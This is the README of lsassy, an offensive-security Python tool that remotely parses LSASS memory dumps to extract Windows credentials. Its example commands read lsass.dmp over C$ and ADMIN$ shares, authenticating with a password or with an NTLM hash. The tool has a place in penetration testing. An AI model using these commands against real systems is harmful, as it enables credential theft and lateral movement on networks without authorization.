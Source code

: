 # lsassy

[![PyPI version](https://badge.fury.io/py/lsassy.svg)](https://badge.fury.io/py/lsassy)

Python library to remotely parse lsass dump.

# Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

# Basic Usage

```
lsassy [<domain>/]<user>[:<password>]@<target>:/shareName/path/to/lsass.dmp
```

`-h` for all options


# Examples

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy Administrateur:952c28bd2fd728898411b301475009b7@desktop01.adsec.local:/ADMIN$/lsass.dmp
```


# Installing

## From pip

```
pip3 install lsassy
```

## From sources

```
python3 setup.py install
```

# Acknowledgments

* (SkelSec)[http://twitter.com/skelsec] for Pypykatz, but also for his patience and help
* (mpgn)[https://twitter.com/mpgn_x64] for his help and ideas
